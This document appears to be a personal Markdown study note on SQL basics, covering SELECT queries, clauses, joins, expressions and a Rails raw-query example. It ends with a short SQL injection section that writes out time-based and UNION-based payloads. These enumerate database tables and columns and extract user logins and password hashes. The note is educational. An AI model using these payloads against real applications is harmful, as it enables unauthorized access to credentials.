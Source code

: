# SQL

* Designed to work with *Relational Databases*
* A query result is best described as a *record* (i.e., not a row as query results may be columns as well)

## Language

* Relational Database: a data store that is capable of representing relationships between different data sets.
  - displayed in rows and columns
* DML: add, query, manipulate, delete data from tables and datasets.
* DDL: defines tables, indexes, and relationships.
* DMS - Database Management System: Oracle, PostgreSQL, SQLite, MySQL

## SQL Practice

### Format
* SQL *statements* that begin with `SELECT` are commonly referred to as "SELECT Statements".
```SQL
-- KEYWORD;
SELECT table.* FROM table;
```
* Common [SQL clauses](https://en.wikipedia.org/wiki/SQL_syntax#Queries): `FROM`, `WHERE`, `GROUP BY`, `ORDER BY`, `DISTINCT`
```SQL
-- Select all attributes with FROM and WHERE clause
SELECT country.* FROM country WHERE country.continent = 'Asia';

-- Select specific attributes
SELECT country.name, country.population, country.region
  FROM country
  WHERE country.continent = 'Asia';

-- Rename Attribute
SELECT country.name, country.population as 'Pop', country.region
  FROM country
  WHERE country.continent = 'Asia';
```
* Functions: `COUNT(*)`
```SQL
SELECT COUNT(*) FROM country WHERE country.continent = 'Asia';
```
* Expressions: Used to derive data from a statement.
```SQL
-- Multiple expressions
SELECT country.name, country.population / 1000000 as 'Pop (in millions)', country.region
  FROM country
  -- Logical Expression
  WHERE country.continent = 'Asia' AND country.population > 1000000
  -- With order clause
  ORDER BY country.population DESC;
```

```SQL
  -- ORDER By
  SELECT country.* FROM country WHERE country.code <> "AFG" ORDER BY country.code;

  -- Not Equal To <>
  SELECT country.* FROM country WHERE country.code <> "AFG" ORDER BY country.code;

  -- AS for a column name
  SELECT country.name, country.code, country.IndepYear AS 'Year of Independence' FROM country WHERE country.code <> "AFG" ORDER BY country.code;
```

Return the capital cities of countries with more than a million population in order of continent and population.
```SQL
-- Countries where populations is >= 10 million
SELECT country.continent, country.name, country.capital, country.population / 1000000 AS 'PopMM'
  FROM country
  WHERE country.population >= 10
  ORDER BY country.continent ASC, country.population DESC
```
```SQL
SELECT c.continent, c.name AS 'Country', c.capital, c.PopMM AS 'Population (in millions)', city.name AS 'Capital'
  FROM (
    -- Countries where populations is >= 10 million
    SELECT country.continent, country.name, country.capital, country.population / 1000000 AS 'PopMM'
      FROM country
      WHERE country.population >= 10
      ORDER BY country.continent ASC, country.population DESC
  ) AS c
  JOIN city
  -- In this case you can use ON or WHERE
  ON city.id = c.capital
  ORDER BY c.continent, c.PopMM DESC;
```

### Expressions

```SQL
-- COUNT
SELECT COUNT('country.*') FROM country;
-- COUNT('country.*')
-- 239
SELECT COUNT(*) FROM country;
-- COUNT(*)
-- 239
```

```SQL
-- Arithmetic
SELECT 1+10;
```

*SQLite* [date and time functions](https://sqlite.org/lang_datefunc.html)

```SQL
-- This is SQLite specific
SELECT strftime('%j %H %w %f', datetime());
-- strftime('%j %H %w %f', datetime())
-- 228 12 3 11.000
```

### Null

* `NULL` is a state not a value.

## LeftOuterJoin

Keeps all the records on the left after the join occurs - otherwise, it would just join with the right table and return only those results that can be joined

To practice writing in rails:

```SQL
ActiveRecord::Base
  .connection
  .execute(
    "SELECT \"events\".*
    FROM \"events\"
    ORDER BY \"events\".updated_at DESC"
  )
  .to_a.first
```

## SQL Injection

[Running an SQL Injection Attack - Computerphile](https://youtu.be/ciNHn38EyRc)

```SQL
-- SLEEP is an SQL command
SELECT ? FROM ? WHERE ? LIKE %hammer% AND 0 = SLEEP(2);

-- UNION Appends - makes sure column count matches

-- Get the table names of all the tables
-- we are selecting 3 columns b/c it must match the original SELECT call
SELECT ?,?,? FROM ? WHERE ? LIKE %hammer% UNION (SELECT TABLE_NAME, TABLE_SCHEMA, 3 FROM information_schema.table); --%';

-- Get the column names of the users table
SELECT ?,?,? FROM ? WHERE ? LIKE %hammer% UNION (SELECT COLUMN_NAME, 2, 3 FROM information_schema.columns WHERE TABLE_NAME = 'users'); --%';

-- GEt the particular data for each user
SELECT ?,?,? FROM ? WHERE ? LIKE %hammer% UNION (SELECT uLogin, uHash, uType FROM users); --%''
```

![SQL_Injected_Products_Table](/assets/sql_injected_products_table.png)

## HTTP vs TCP vs UDP
